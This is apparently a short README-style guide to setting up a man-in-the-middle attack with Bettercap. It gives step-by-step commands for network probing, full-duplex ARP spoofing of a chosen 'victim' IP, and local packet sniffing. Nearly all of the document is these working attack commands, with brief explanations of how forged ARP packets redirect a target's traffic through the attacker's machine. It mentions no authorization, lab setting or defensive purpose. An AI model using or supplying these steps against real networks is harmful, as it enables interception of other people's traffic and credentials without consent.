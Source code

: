 
# Network Probing and ARP Spoofing Configuration

This guide outlines the steps for setting up network probing, ARP spoofing, and packet sniffing on a local network. The configuration will allow for sending probe packets, performing a Man-in-the-Middle (MITM) attack through ARP spoofing, and capturing network traffic from selected targets.
### 1.Start Bettercap:

**Command:**
```
bettercap
```

### 2. Enable Network Probing

**Command:**
```
net.probe on
```
**Description:**
This command activates the network probing feature, which sends various types of probe packets to identify active devices and network configurations.

### 3. Configure ARP Spoofing for Full Duplex

**Command:**
```
set arp.spoof.fullduplex true
```

**Description:**
Enables full-duplex ARP spoofing. This mode allows spoofing ARP replies to both the target and the gateway, facilitating a MITM attack. In this setup, crafted ARP packets are sent to trick selected hosts into sending their traffic through the attacker's machine.

### 4. Set ARP Spoofing Targets

**Command:**
```
set arp.spoof.targets <Target IP>
```

**Description:**
Specifies the IP address of the target device to be spoofed. Replace `<Target IP>` with the actual IP address of the victim device you want to intercept.

### 5. Enable Local Packet Sniffing

**Command:**
```
set net.sniff.local true
```

**Description:**
Activates packet sniffing on the local network. This allows the attacker to capture and analyze data packets sent and received by the target devices.

### 6. Start ARP Spoofing

**Command:**
```
arp.spoof on
```
**Description:**
Begins the ARP spoofing process. This command sends forged ARP packets to the target and the gateway, redirecting the network traffic through the attacker's machine.

### 7. Start Packet Sniffing

**Command:**
```
net.sniff on
```
**Description:**
Initiates the packet sniffing process. With this command, the attacker can monitor and capture all traffic between the target device and the network.


